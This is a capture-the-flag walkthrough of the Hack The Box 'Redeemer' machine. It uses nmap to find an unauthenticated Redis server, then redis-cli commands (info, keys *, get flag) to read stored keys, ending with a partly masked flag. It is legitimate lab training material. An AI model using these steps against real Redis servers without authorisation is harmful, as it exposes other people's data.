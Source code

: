 ```yaml
---
title: "Hack The Box - Redeemer"
date: 2022-10-12T02:41:09+05:30
draft: false
description: " Redeemer from HackTheBox is an retired machine which is vulnerable to Redis and security Misconfiguration, which can be easily exploited with help of Basic Recon "
hideToc: false
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- Redis
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/redeemer/1.png
---
```

Hi Hackers Welcome Back, Today we are going to look at Hack The Box Redeemer Machine.

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Redeemer</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>


## Kill Chain Summery
While enumerating ports and services we can able to find the port 6379 ware open. while tryed to connect without using any password. we got connected to Redis and get downloaded sensitive files. 

## Recon

let’s start with initial default scan (-sC). we did’t get any results, it shows that there is no services running on top 1000 ports. since we don’t know  vulnerable target port  so we can scan first 10000 ports 

```jsx
atom@atom-VirtualBox:~/htb/redeemer$ nmap -p1-10000 10.129.145.0
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-10 17:00 IST
Stats: 0:03:24 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 57.69% done; ETC: 17:06 (0:02:30 remaining)
Stats: 0:07:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 90.21% done; ETC: 17:09 (0:00:52 remaining)
Nmap scan report for 10.129.145.0
Host is up (0.19s latency).
Not shown: 9999 closed ports
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 651.16 seconds
```

Databases are a collection of organized information that can be easily accessed, managed and updated. 

There are different types of databases and one among them is Redis, which is an 'in-memory' database. In - memory databases are the ones that rely essentially on the primary memory for data storage (meaning that the database is managed in the RAM of the system); in contrast to databases that store data on the disk or SSDs. As the primary memory is significantly faster than the secondary memory, the data retrieval time in the case of 'in-memory' databases is very small, thus offering very efficient & minimal response times.

```jsx
atom@atom-VirtualBox:~/htb/redeemer$ nmap -sC -sV -p 6379 10.129.145.0
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-10 18:07 IST
Nmap scan report for 10.129.145.0
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```

In-memory databases like Redis are typically used to cache data that is frequently requested for quick retrieval.  We can infer from the scan result that only one port is open on the target machine, i.e. port 6379 which is running a Redis server

Redis (REmote DIctionary Server) is an open-source advanced NoSQL key-value data store used as a database, cache, and message broker. The data is stored in a dictionary format having key-value pairs. It is typically used for short term storage of data that needs fast retrieval. Redis does backup data to hard drives to provide consistency

Redis runs as server-side software so its core functionality is in its server component. The server listens for connections from clients, programmatically or through the command-line interface. The database is stored in the server's RAM to enable fast data access. Redis also writes the contents of the database to disk at varying intervals to persist it as a backup, in case of failure.

In order to work with redis you have to install  ``` redis-cli ```  type this command to install it ``` sudo apt install redis-tools ```

```jsx
atom@atom-VirtualBox:~/htb/dancing$ sudo apt install redis-tools
[sudo] password for atom: 
Reading package lists... Done
Building dependency tree       
Reading state information... Done
The following packages were automatically installed and are no longer required:
  chromium-codecs-ffmpeg-extra gstreamer1.0-vaapi libgstreamer-plugins-bad1.0-0 libva-wayland2
Use 'sudo apt autoremove' to remove them.
The following additional packages will be installed:
  libatomic1 libhiredis0.14 libjemalloc2 liblua5.1-0 lua-bitop lua-cjson
Suggested packages:
  ruby-redis
The following NEW packages will be installed:
  libatomic1 libhiredis0.14 libjemalloc2 liblua5.1-0 lua-bitop lua-cjson redis-tools
0 upgraded, 7 newly installed, 0 to remove and 0 not upgraded.
Need to get 887 kB of archives.
After this operation, 3,955 kB of additional disk space will be used.
Do you want to continue? [Y/n]
```

``` info ```  command is used to for gathering information 

```jsx
atom@atom-VirtualBox:~/htb/dancing$ redis-cli -h 10.129.136.187
10.129.136.187:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
```

``` keys * ``` used to list the keys 

```jsx
10.129.136.187:6379> keys *
1) "flag"
2) "numb"
3) "temp"
4) "stor"
```

``` get ``` command is used to view content of the flag 

```jsx
atom@atom-VirtualBox:~/htb/redeemer$ redis-cli -h 10.129.145.83
10.129.145.83:6379> get flag
```

```bash
10.129.136.187:6379> get flag
"03e1d2b---------9922053953eb"
```